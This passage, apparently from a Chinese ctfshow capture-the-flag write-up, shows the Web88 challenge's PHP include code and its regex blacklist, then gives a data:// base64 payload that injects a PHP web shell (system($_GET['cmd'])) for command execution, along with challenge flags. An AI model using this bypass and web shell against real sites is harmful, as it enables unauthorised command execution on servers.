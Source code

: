 ![web87flag](./image_include/web87_flag.png)

ctfshow{7c5fc6fb-824a-4ab1-a2eb-01264953da6e}

## Web88

题目

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-17 02:27:25
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

 */
if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match("/php|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i", $file)){
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
}
```

没有过滤`:`考虑伪协议由于过滤了一些特殊字符在构造payload时考虑data://text/plain;base64,协议传入base64编码后的字符绕过

注意这里过滤了`=+-`在构造base64编码的payload时要注意base64结尾通常会产生的+和=

payload

```
/?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7&cmd=ls
PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7 --><?php system($_GET['cmd']);
```

ctfshow{811fdad3-ab61-4fe2-92f5-7e5760be98fe}

## Web116
